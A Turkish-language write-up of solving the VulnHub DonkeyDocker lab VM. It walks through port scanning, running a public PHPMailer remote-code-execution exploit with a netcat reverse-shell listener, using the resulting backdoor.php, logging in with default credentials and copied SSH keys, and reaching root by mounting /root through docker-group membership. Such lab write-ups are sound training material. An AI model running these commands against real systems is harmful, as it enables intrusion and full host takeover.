#   DonkeyDocker

Selam,
Finallerimiz bitince 4 arkadaş herkes elinden geldiğince vmler çözelim ve yayınlayalım dedik,
süre belirledik ve çözmeyen kişi veya kişiler bu ruleti ana sisteminde yedek almadan oynayacak diye karar aldık



Bu vesileyle DonkeyDocker sanal makinasının tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.
VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır

[VulnHub](https://www.vulnhub.com/entry/donkeydocker-1,189/)

#   VM çözümü

İlk önce hedef sistemi bulmak için

    arp -a

komutu ile **arp** tablosunu edinip hedefimizi **192.168.2.8* **IP adresi** nde buluyoruz

    nmap -n -p 1-65535 -sV 192.168.2.8 --open
    
ile tüm açık tcp portlarını listeliyoruz ve sadece **http(80)** ve **ssh(22)** portu açık görüyoruz



bunun üzerine HTTP portuna yönelip browserımızda

    192.168.2.8
    
adresine gitmeyi deniyoruz.



Siteye girdiğimizde bizi vm hakkında ve hazırlayan hakkında
bilgilendiren bir sayfa karşılıyor ve sayfa kodlarında da birşey bulamayınca, 
hemen adresi *owasp zap* aracında tarattığımızda **robots.txt** yi görünce kalbimiz çarpsa
da içinden birşey çıkmıyor. **Dirb**den yardım dilenerek 



birkaç ek sayfa daha buluyoruz tabi bulduklarımıza gözatmayı ihmal etmiyoruz
*http://192.168.2.8/mailer/examples/index.html* sayfasını ziyaret ediyoruz ve 
**phpmailer** anahtar sözcüğünü biyere not ediyoruz.



Sistem hakkında bilgiler toplamak için

    curl -I http://192.168.2.8/

komutunu kullansakta yalnızca **apache** versiyonunu öğrenebiliyoruz.



Elde edilen bilgiler bir ipucuna götürmediği için yönümüzü **exploit** aramaya çeviriyoruz.
**Apache** versiyonundan birşey yakalayamıyoruz ancak, **phpmailer** ilgimizi çekmeye başlıyor.



Vm çözmenin %90 ı okumaktır deyip *nasıl öğrenirim ben bu versiyonu?* sorusuyla google a gidiyoruz.





**VERSION** dosyasında yazdığını öğrenip *acaba mı?* diyerek bir elimiz kalbimizde bakıyoruz.



versiyonu görünce hemen download arıyor gözlerimiz **exploitdb**de 
pythona ihanet olmaz diyerek **PHPMailer < 5.2.18 Remote Code Execution (Python)** 
yazısına 3-5-10 kere tıklıyoruz ve indiriyoruz



**vim** ile kendimize göre düzenleyip (anarcoder fantezi yazısını silmeniz veya dosyanın en başına

    # -*- coding: utf-8 -*-
    
yazmanız gerekmekte) kaydedip çalıştıramıyoruz çünkü eksik kütüphanemiz varmış, onu da

    pip2 install requests_toolbelt
    
ile indirip

    nc -lvp 8080

ile **8080** portumuzu dinlerken exploitimizi

    python 40974.py

ile çalıştırıyoruz.



uzun sayılabilecek bir süre bekledikten sonra işlemimiz bitiyor.



*reverse shell* imiz düşmezse **nc** dinlemeye devam ederken firefoxdan

    http://192.168.2.8/backdoor.php
    
sayfasını ziyaret etmeniz yeterli olacaktır.



biraz genel geçer arama yapıyoruz smith kullanıcı adını öğreniyoruz fakat bir açık göremeyince



yok artık exploit sonrası *ssh bruteforce* mu? dememize kalmadan



publickey veremediğimiz için onuda yapamıyoruz ve tekrar aramaya başlıyoruz.

    su smith
    
ile geçiş yapmayı denesekte gerçek bir shell olmadığı için hata alıp elimiz kolumuz bağlı oturuyoruz
*shell spawning* yollarına bakıp python yine gözükünce hemen yapıştırıyoruz.



ve **su smith** denememizi yapıyoruz nitekim *shell* konusunda sorun çıkmıyo ama **parola?**
*qwe123* ler *password* ler havada uçuşurken **GameOfPwners** ta ipucu olarak *ön tanımlı parola*
denilen *kullanıcı adı* geliyo aklımıza ve parolaya da **smith** yazıyoruz.



eşimizi dostumuzu ekran başına çağırıp göstermeden devam etmeyelim lütfen... 
arıyoruz tarıyoruz fakat yine kitlenince *flag* daki *PS* (not) dikkatimizi çekiyor ve **grep** ten zarar gelmez diyip

    grep -ar "1984"

    
    grep -ari "george"
    
    
    grep -ari "orwell"

    


denediğimize değdiğini görüyoruz. Tabi durmayıp dizine gidiyoruz.



dizinin komple bir link olduğunu (**S**) ve *orwell* isimli bir kullanıcıya *parolasız* bağlanılması için **key** kaydı yapıldığını görüyoruz
nasıl bunu kullanırım sorusunun cevabını ssh manualinde arayıp bulduktan sonra



id_ed25519 ve id_ed25519.pub dosyalarını kalimizde aynen oluşturup(içeriklerini kopyalayıp) acımadan kullanıyoruz



#İÇERDEMA



ve tabi bi flagınızı alırız diyerek



yine aramalarımıza hız vererek (güya daha deneyimliyiz ya)





ilginç birşeyle karşılaşıyoruz.Şahsen benim için ilk kez karşılaştığımdan dolayı ilginç
"nedir bu busybox?" diye ararken androidleri root etmede kullanıldığını genel linux uygulamalarını içerdiğini öğreniyoruz.
ve **Shell** imizin **ash(Almquist shell)** olduğunu ayrıca **orwell** imizin docker gurubuna dahil olduğunu öğreniyoruz.
Dolayısıyla dockerında manuelini okumaya ve internetten araştırmaya başlıyoruz.





    docker container ls
    
ile containerleri listeliyoruz ve sadece **donkeydocker** adlı bir container olduğunu görüyoruz.
Bu containerın neler çalıştırdığına göz atarak *main.sh* ı görüyoruz



dolayısıyla ona ulaşmaya çalışarak komutlarımızı

    docker container exec donkeydocker
    
ın sonuna ekliyoruz. Fakat containerın ayaklanmasında kullanılan komutlar olduğunu görüp



zaten containerda **root** muşuz napalım main.sh ı diyerek umursamıyoruz



hatta birara tembellik bayrağını elimize alıp taşıyıp bıraktığımız bile oluyor



flag arıyoruz ama flag containerda olmadığından dolayı bulamıyoruz



burası beni en çok yoran kısım oldu çünkü birşeyi öğren uygula ve hatta kötüye kullan **okadar da hızlı** yapılamıyor

Docker grubunun root grubuna eşdeğer olduğunu dolayısıyla atlatılabildiğini [şu abimizden](https://reventlov.com/advisories/using-the-docker-command-to-root-the-host) öğrendim.
Tabi basit değişiklikler yaparak uyguladım (debian yerine ubuntu ve **aucc** ler)
Bir klasör oluşturup içerisine Dockerfile adında bir dosyaya

    FROM ubuntu:14.04
    ENV WORKDIR /aucc
    RUN mkdir -p $WORKDIR
    VOLUME [ $WORKDIR ]
    WORKDIR $WORKDIR

yazıyoruz ve 

    docker build -t aucc-docker-image .

ile build ediyoruz
    




    docker run -v /root:/aucc -t aucc-docker-image /bin/bash -c 'ls -l'
    
ile dosya ve dizinleri listeleyip

    docker run -v /root:/aucc -t aucc-docker-image /bin/bash -c 'cat flag.txt'
    
ile flagımızı görüp şaşı bakan gözlerimizi dinlendiriyoruz



